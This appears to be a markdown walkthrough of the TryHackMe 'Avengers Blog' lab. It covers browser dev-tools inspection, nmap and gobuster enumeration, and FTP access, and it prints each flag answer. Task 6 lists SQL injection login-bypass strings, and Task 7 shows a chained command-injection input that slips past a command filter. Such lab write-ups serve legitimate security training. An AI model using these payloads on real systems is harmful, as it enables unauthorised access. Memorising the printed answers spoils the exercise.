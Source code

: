 # Avengers Blog Wlakthrough
### Link
- https://tryhackme.com/room/avengers
------------------------
### Task 1 : Deploy
- Follow instructions
------------------------
### Task 2 - Cookies
- On the deployed Avengers machine you recently deployed, get the flag1 cookie value.
    - Open Web developer tools
    - If you work with Firefox
        - Select Storage
        - Cookies
        - Picture: [Avengers_Blog_2.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_2.png)
    - If you work with Google Chrome
        - Select Application
        - Under Storage , select Cookies
        - Picture: [Avengers_Blog_1.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_1.png)
- **Answer** : cookie_secret
---------------------------
### Task 3 - HTTP Header
- Look at the HTTP response headers and obtain flag 2
- Always under Developer tools
    - Firefox
        - Network tab
        - Refresh the page
        - On the left panel, select the first GET request
        - On the left panel, select the tab Header
        - Scroll down and find flag2
        - Picture: [Avengers_Blog_3.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_3.png)

        - Google Chrome
            - Network tab
            - On the left panel, select the first request (should be materialize by the IP)
            - On the right panel,  select Headers tab
            - Find flag 2
            - Picture: [Avengers_Blog_4.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_4.png)
- **Answers** : headers_are_important
---------------------------
### Task 4 - Enumeration
Look around the FTP share and read flag 3!
- Perform Nmap
    - sudo nmap -sC -sV -oN ./Avengers_Blog_Namp_result [IP]
    - Picture: [Avengers_Blog_5.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_5.png)
- FTP is opened. THM platform provides the access credentials: username (groot) and a password (iamgroot)
    - Log to the FTP
    - Navigate and find flag3.txt
    - Download flag3.txt
        - get flag3.txt
        - quit
    - Consult flag3.txt
        - cat flag3.txt
    - Picture: [Avengers_Blog_6.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_6.png)
- **Answers** : 8fc651a739befc58d450dc48e1f1fd2e
---------------------------
### Task 5 - Gobuster
- What is the directory that has an Avengers login?
- Gobuster command
    - sudo gobuster dir -u http://[IP] -w [Wordlist path]/directory-list-2.3-medium.txt
    - One interesting result: /portal (Status: 200)
    - Let's try this
- Picture: [Avengers_Blog_7.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_7.png)
- ** Answers ** : /portal
---------------------------
### Task 6 - SQL Injection
-  Log into the Avengers site. View the page source, how many lines of code are there?
    - Based on the indication from TryHackMe, the portal is vulnerable to SQL injection. Before to try automatic tool such as BurpSuite, let's try some basic SQL Injection
    >' or "
    >-- or #
    >' OR '1
    >' OR 1 -- -
    >" OR "" = "
    >" OR 1 = 1 -- -
    >' OR '' = '
    >' OR 1 = 1 --   (correct pattern)
    - Picture: [Avengers_Blog_8.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_8.png)
    - Check the source page
    - ** Answers ** : 223
---------------------------
### Task 7 - Remote code execurtion and linux
- Read the contents of flag5.txt
- Some command are authorize but not all. For example : ls , cd
    - cd ..;ls;tac flag5.txt
- Picture: [Avengers_Blog_9.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_9.png)
- ** Answers ** : d335e2d13f36558ba1e67969a1718af7

